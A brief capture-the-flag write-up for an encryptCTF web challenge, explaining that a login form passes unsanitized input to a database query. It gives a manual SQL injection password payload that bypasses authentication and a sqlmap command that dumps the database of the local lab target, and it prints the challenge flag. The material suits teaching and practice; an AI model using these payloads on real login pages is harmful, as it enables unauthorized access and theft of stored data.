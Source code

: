 * putting random inputs in username and password fields sometimes result in db errors
* looks like inputs aren't sanitized properly before being put in a database query

Two possible solutions:
 1. Manual injection:
   * Username: `admin`
   * Password: `' OR ''='`
 2. Lazy way:
   * Just run `sqlmap -u 127.0.0.1:9090/login.php --data="username=admin&password=pass&submit=submit" -p username --dump --time-sec 1 --batch --answer="crack=n"`

## Flag
```
encryptCTF{i_H4t3_inJ3c7i0n5}
```

